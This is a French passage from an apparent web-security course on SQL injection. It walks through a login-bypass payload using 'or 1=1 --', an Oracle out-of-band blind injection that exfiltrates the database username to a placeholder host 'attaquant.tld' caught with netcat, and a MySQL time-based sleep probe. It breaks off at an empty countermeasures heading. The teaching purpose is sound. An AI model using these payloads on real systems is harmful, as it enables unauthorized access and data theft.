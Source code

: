 Cette page PHP construit la requete :
select ID from utilisateurs where login='\$login' AND password='\$password'

Si les variables \$login et \$password ne sont pas vérifiées, on peut injecter ce que l'on veut dans la requete afin de contourner le controle d'accès :
select ID from utilisateurs where login='xxx' or 1=1 -- ' AND password='yyy'

Ici, la valeur envoyée pour \$login est :
xxx' or 1=1 --
Le double tiret forçant tout ce qui suit dans la requete à être ignoré.


\subsection{SQLi à l'aveugle (Blind)}\label{vulnerabilites:web:sqli:blind}

Lorsque les résultats des requêtes SQL ne sont pas directement affichés par l'application web, il va falloir travailler de manière détournée, en aveugle.

Par exemple, la requête (Oracle) suivante va envoyer des information vers la machine de l'attaquant : 
\begin{center}
http://www.monsite.tld/product.php?id=10

||UTL_HTTP.request(‘attaquant.tld:80’||(SELECT user FROM DUAL)--
\end{center}

Qui va recevoir le nom de l'utilisateur connecté à la base de données :
\begin{center}
/home/attaquant/nc –nLp 80
 
GET /ROBERT HTTP/1.1

Host: attaquant.tld

Connection: close

\end{center}

Une autre technique très connue est celle par délai d'attente, par exemple pour déterminer la version de MySQL utilisée :

\begin{center}
http://www.monsite.tld/product.php?id=10 AND IF(version() like ‘5\%’, sleep(10), ‘false’))--
\end{center}

Ici, l'observation du temps de réponse de la requête indiquera si la cible utilise MySQL 5.X.

\subsection{Contre-mesures}

